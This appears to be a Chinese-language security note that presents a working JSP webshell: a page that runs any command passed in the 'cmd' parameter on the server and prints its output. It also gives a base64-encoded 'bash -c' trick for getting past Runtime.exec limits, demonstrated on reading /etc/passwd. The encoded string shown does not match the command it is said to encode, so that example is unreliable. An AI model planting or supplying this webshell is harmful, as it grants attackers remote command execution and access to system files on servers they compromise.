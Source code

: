 # JSP Webshell

JSP(Java Server Pages)是一种动态网页开发技术。它使用JSP标签在HTML网页中插入Java代码。

JSP是一种Java servlet，主要用于实现Java web应用程序的用户界面部分

---

### 基础CMD命令执行+base64传输payload


```jsp
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
                p = Runtime.getRuntime().exec(request.getParameter("cmd"));
            }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
%>
</pre>
</BODY></HTML>
```

> [Runtime.getRuntime().exec踩坑总结](https://blog.51cto.com/stefanxfy/4722238)

> [java.lang.Runtime.exec() Payload Workarounds - @Jackson_T (bewhale.github.io)](https://bewhale.github.io/tools/encode.html)

偶尔有时命令执行有效负载`Runtime.getRuntime().exec()`失败. 使用 web shells, 反序列化漏洞或其他向量时可能会发生这种情况.

有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义. 例如 `ls > dir_listing` 在shell中执行应该将当前目录的列表输出到名为的文件中 `dir_listing`. 但是在 `exec()` 函数的上下文中,该命令将被解释为获取 `>` 和 `dir_listing` 目录.

其他时候,其中包含空格的参数会被StringTokenizer类破坏.该类将空格分割为命令字符串. 那样的东西 `ls "My Directory"` 会被解释为 `ls '"My' 'Directory"'`.

在Base64编码的帮助下, 可以通过调用Bash或PowerShell再次使管道和重定向更好,并且还确保参数中没有空格.

比如将 bash 命令

```bash
cat /etc/passwd
```

转换为: 

```shell
bash -c {echo,Y2F0IC9lcnR0Yy9wYXNzd2Q=}|{base64,-d}|{bash,-i}
```

---



